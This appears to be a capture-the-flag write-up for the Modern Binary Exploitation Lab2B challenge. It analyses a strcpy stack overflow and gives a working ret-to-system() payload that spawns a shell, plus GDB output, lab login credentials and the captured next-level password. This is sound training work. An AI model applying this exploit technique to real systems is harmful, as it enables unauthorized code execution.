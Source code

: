 ```yaml
---
title: "Lab2B Write-up (Medium)"
permalink: /writeups/mbe/lab2b/
excerpt: "Write-up for Lab2B."
---
```


---
**Lab2B** is quite similar to the previous challenge, but the exploit we have to write will be a bit trickier. First, log into the Lab02 as **Lab2B** (`lab2B:1m_all_ab0ut_d4t_b33f`) and go to the challenges folder:

```shell
$ ssh lab2B@<VM_IP>
$ cd /levels/lab02/
```

Now we can check what this program does:

```shell
# Usage
lab2B@warzone:/levels/lab02$ ./lab2B
usage:
./lab2B string
# Testing
lab2B@warzone:/levels/lab02$ ./lab2B Test
Hello Test
```

Here, the program takes our argument and prepend the string "Hello " to it.

## Source Code Analysis

Let's take a look at the source to get a better view of what happened here.

```c
char* exec_string = "/bin/sh";

void shell(char* cmd)
{
	system(cmd);
}

void print_name(char* input)
{
	char buf[15];
	strcpy(buf, input);
	printf("Hello %s\n", buf);
}

int main(int argc, char** argv)
{
	if(argc != 2)
	{
		printf("usage:\n%s string\n", argv[0]);
		return EXIT_FAILURE;
	}

	print_name(argv[1]);

	return EXIT_SUCCESS;
}
```

Like the previous level, the main issue here is that the user input size is not checked and we'll be able to overflow **buf** quite easily through the use of the *strcpy()* function. We can also see the *shell()* function which can execute any provided command and a char pointer, **exec_string**, containing *"/bin/sh"*.

There are multiple way to solve this one, but we'll stick with the way the developer of this challenge want us to do it. It means overwriting the *print_name()* return address with the call to the *system()* function and pass **exec_string** as an argument for this function.

## Dynamic Analysis

So, first we need to find a way to overflow the return address and pass an argument on the stack (**exec_string**). Here, we will use [PEDA](https://github.com/longld/peda) **pattern** features to help us.

```nasm
gdb-peda$ pattern arg 50
Set 1 arguments to program
gdb-peda$ run
Starting program: /levels/lab02/lab2B 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x39 ('9')
EBX: 0xb7fcd000 --> 0x1a9da8 
ECX: 0x0 
EDX: 0xb7fce898 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41412841 ('A(AA')
ESP: 0xbffff6a0 ("AA)AAEAAaAA0AAFAAbA")
EIP: 0x3b414144 ('DAA;')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x3b414144
[------------------------------------stack-------------------------------------]
0000| 0xbffff6a0 ("AA)AAEAAaAA0AAFAAbA")
0004| 0xbffff6a4 ("AEAAaAA0AAFAAbA")
0008| 0xbffff6a8 ("aAA0AAFAAbA")
0012| 0xbffff6ac ("AAFAAbA")
0016| 0xbffff6b0 --> 0x416241 ('AbA')
0020| 0xbffff6b4 --> 0x0 
0024| 0xbffff6b8 --> 0x0 
0028| 0xbffff6bc --> 0xb7e3ca83 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x3b414144 in ?? ()
gdb-peda$ pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 27 ; offset to overwrite RET
EBP+0 found at offset: 23
Registers point to pattern buffer:
[ESP] --> offset 31 - size ~19 ; offset to write an argument
Pattern buffer found at:
0xb7fd8006 : offset    0 - size   50 (mapped)
0xbffff681 : offset    0 - size   50 ($sp + -0x1f [-8 dwords])
0xbffff895 : offset    0 - size   50 ($sp + 0x1f5 [125 dwords])
References to pattern buffer found at:
0xbffff1d0 : 0xbffff681 ($sp + -0x4d0 [-308 dwords])
0xbffff660 : 0xbffff681 ($sp + -0x40 [-16 dwords])
0xbffff674 : 0xbffff681 ($sp + -0x2c [-11 dwords])
0xbffff758 : 0xbffff895 ($sp + 0xb8 [46 dwords])
gdb-peda$ 
```

Using the `pattern search` command, we can see how many bytes we ne to write in order to overwrite the return address as well as the address pointed by ESP:  
- EIP+0 found at offset: 27
- [ESP] --> offset 31 - size ~19

Here, **27** bytes are necessary to overwrite the return address. Also, as ESP is pointing at offset 31, we can provide a pointer to */bin/sh* right after the return address. Let's write a quick proof of concept.

```nasm
gdb-peda$ run `python -c 'print 27 * "\x41" + "\x42\x42\x42\x42" + "\x43\x43\x43\x43"'`
Starting program: /levels/lab02/lab2B `python -c 'print 27 * "\x41" + "\x42\x42\x42\x42" + "\x43\x43\x43\x43"'`
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x2a ('*')
EBX: 0xb7fcd000 --> 0x1a9da8 
ECX: 0x0 
EDX: 0xb7fce898 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff6b0 ("CCCC")
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff6b0 ("CCCC")
0004| 0xbffff6b4 --> 0xb7fff000 --> 0x20f34 
0008| 0xbffff6b8 --> 0x804874b (<__libc_csu_init+11>:	add    ebx,0x18b5)
0012| 0xbffff6bc --> 0xb7fcd000 --> 0x1a9da8 
0016| 0xbffff6c0 --> 0x8048740 (<__libc_csu_init>:	push   ebp)
0020| 0xbffff6c4 --> 0x0 
0024| 0xbffff6c8 --> 0x0 
0028| 0xbffff6cc --> 0xb7e3ca83 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
Perfect, as we can see EIP is now equal to **0x42424242** and the first value on the stack is **0x43434343**. Now, we have the control over the stack to write our return address and a pointer to */bin/bash*. Let's find the real values.

First, we need the address of the call to the *system()* function present in the *shell()* function.

```nasm
gdb-peda$ disas shell
Dump of assembler code for function shell:
   0x080486bd <+0>:	push   ebp
   0x080486be <+1>:	mov    ebp,esp
   0x080486c0 <+3>:	sub    esp,0x18
   0x080486c3 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080486c6 <+9>:	mov    DWORD PTR [esp],eax
   0x080486c9 <+12>:	call   0x8048590 <system@plt>
   0x080486ce <+17>:	leave  
   0x080486cf <+18>:	ret    
End of assembler dump.
```

Here, the call to the *system()* function is at the address **0x080486c9**. Then, let's find a pointer to */bin/sh* in memory:

```nasm
gdb-peda$ searchmem /bin/sh
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
lab2B : 0x80487d0 ("/bin/sh")
lab2B : 0x80497d0 ("/bin/sh")
 libc : 0xb7f83a24 ("/bin/sh")
```

So, **0x080486c9** will be the return address and **0x80487d0** the string pointer.

## Solution

Now that we have analyzed how the input is handled, let's try it again and solve this challenge.

```shell
lab2B@warzone:/levels/lab02$ ./lab2B `python -c 'print 27 * "\x41" + "\xc9\x86\x04\x08" + "\xd0\x87\x04\x08"'`
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAЇ
$ whoami
lab2A
$ cat /home/lab2A/.pass
i_c4ll_wh4t_i_w4nt_n00b
```

Almost easy. Next [challenge](/writeups/mbe/lab2a/)!